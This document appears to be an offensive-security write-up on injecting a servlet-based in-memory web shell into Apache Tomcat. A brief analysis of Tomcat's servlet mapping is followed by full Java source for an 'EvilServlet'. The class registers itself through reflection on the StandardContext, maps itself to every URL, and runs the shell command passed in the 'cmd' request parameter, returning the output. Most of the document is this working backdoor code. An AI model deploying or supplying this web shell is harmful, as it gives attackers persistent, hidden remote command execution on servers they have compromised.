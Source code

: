 # Servlet memshell

## Analysis

The process of the `Tomcat` matching a specific `Servlet` according to the request URL:

* Traverse a `children` and get the corresponding `child` according to the `ServletMapping` object, an URL mapping.

* The `child` is actually a `Wrapper` class, and the `Wrapper` object encapsulates the `Servlet`.

To add a `Servlet` dynamically, we should:

* Create a `Wrapper` object to encapsulate the `Servlet`.

* Call the `addchild()` method of the `StandardContext` class to add the `Wrapper` object to the `children`.

* Call the `addServletMappingDecoded()` method of the `StandardContext` class to establish the URL mapping.

In addition, we must achieve the `service()` method and write malicious code in this method.

## Code

    public class EvilServlet extends AbstractTranslet implements Servlet {
        static {
            final String name = "Ya0h4cker";
            WebappClassLoaderBase webappClassLoaderBase = (WebappClassLoaderBase) Thread.currentThread().getContextClassLoader();
            try {
                Field field = webappClassLoaderBase.getClass().getSuperclass().getDeclaredField("resources");
                field.setAccessible(true);
                WebResourceRoot resources = (WebResourceRoot) field.get(webappClassLoaderBase);
                StandardContext standardContext = (StandardContext) resources.getContext();

                if (standardContext.findChild(name) == null) {
                    Servlet servlet = new EvilServlet();

                    Wrapper wrapper = standardContext.createWrapper();
                    wrapper.setName(name);
                    wrapper.setServlet(servlet);
                    wrapper.setServletClass(servlet.getClass().getName());

                    standardContext.addChild(wrapper);
                    standardContext.addServletMappingDecoded("/*", name);
                    System.out.println("Inject success");
                }
            } catch (NoSuchFieldException | IllegalAccessException e) {
                e.printStackTrace();
            }
        }

        @Override
        public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {
        }

        @Override
        public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {
        }

        @Override
        public void init(ServletConfig servletConfig) throws ServletException {
        }

        @Override
        public ServletConfig getServletConfig() {
            return null;
        }

        @Override
        public void service(ServletRequest servletRequest, ServletResponse servletResponse) throws ServletException, IOException {
            System.out.println("Evil service");
            if (servletRequest.getParameter("cmd") != null) {
                String cmd = servletRequest.getParameter("cmd");
                boolean isLinux = true;
                String osTyp = System.getProperty("os.name");
                if (osTyp != null && osTyp.toLowerCase().contains("win")) {
                    isLinux = false;
                }
                String[] cmds = isLinux ? new String[]{"sh", "-c", cmd} : new String[]{"cmd.exe", "/c", cmd};
                InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
                Scanner s = new Scanner(in).useDelimiter("\\a");
                String output = s.hasNext() ? s.next() : "";
                PrintWriter out = servletResponse.getWriter();
                out.println(output);
                out.flush();
                out.close();
            }
        }

        @Override
        public String getServletInfo() {
            return null;
        }

        @Override
        public void destroy() {
        }
    }
